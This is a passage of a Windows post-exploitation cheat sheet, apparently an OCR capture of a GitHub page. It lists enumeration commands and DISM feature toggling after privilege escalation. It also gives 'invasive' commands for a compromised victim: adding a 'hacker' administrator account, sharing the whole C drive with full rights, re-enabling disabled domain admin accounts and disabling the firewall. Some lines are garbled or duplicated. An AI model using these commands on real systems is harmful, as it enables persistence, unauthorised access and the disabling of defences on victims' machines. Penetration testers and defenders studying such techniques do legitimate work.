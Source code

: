 ```

* winpop stat domainname

Vista/7

* winstat features
* wbadmin get status
* wbadmin get items
* gpresult /H gpols.htm
* bcdedit /export <filename>

Vista SP1/7/2008/2008R2 (x86 & x64)

Enable/Disable Windows features with Deployment Image Servicing and Management
(DISM): *Note* Works well after bypassuac + getsystem (requires system
privileges) *Note2* For Dism.exe to work on x64 systems, the long commands are
necessary

To list features which can be enabled/disabled:

%windir%\System32\cmd.exe /c "%SystemRoot%\system32\Dism.exe" /online /get-features

To enable a feature (TFTP client for example):

%windir%\System32\cmd.exe /c "%SystemRoot%\system32\Dism.exe" /online /enable-feature /featurename:TFTP

To disable a feature (again TFTP client):

%windir%\System32\cmd.exe /c "%SystemRoot%\system32\Dism.exe" /online /disable-feature /featurename:TFTP

Invasive or Altering Commands

These commands change things on the target and can lead to getting detected

Command Description

* net user hacker hacker /add - Creats a new local (to the victim) user called 'hacker' with the password of 'hacker'
* net localgroup administrators /add hacker

* net localgroup administrators hacker /add - Adds the new user 'hacker' to the local administrators group
* net share nothing$=C:\ /grant:hacker,FULL /unlimited - Shares the C drive (you can specify any drive) out as a Windows share and grants the user 'hacker' full rights to access, or modify anything on that drive.

One thing to note is that in newer (will have to look up exactly when, I believe since XP SP2) windows versions, share permissions and file permissions are separated. Since we added our selves as a local admin this isn’t a problem but it is something to keep in mind

* net user username /active:yes /domain - Changes an inactive / disabled account to active. This can useful for re-enabling old domain admins to use, but still puts up a red flag if those accounts are being watched.
* netsh firewall set opmode disable - Disables the local windows firewall
* netsh firewall set opmode enable - Enables the local windows firewall. If rules are not in place for your connection, this could cause you to loose it.

Support Tools Binaries / Links / Usage

Command Link to download  Description

```
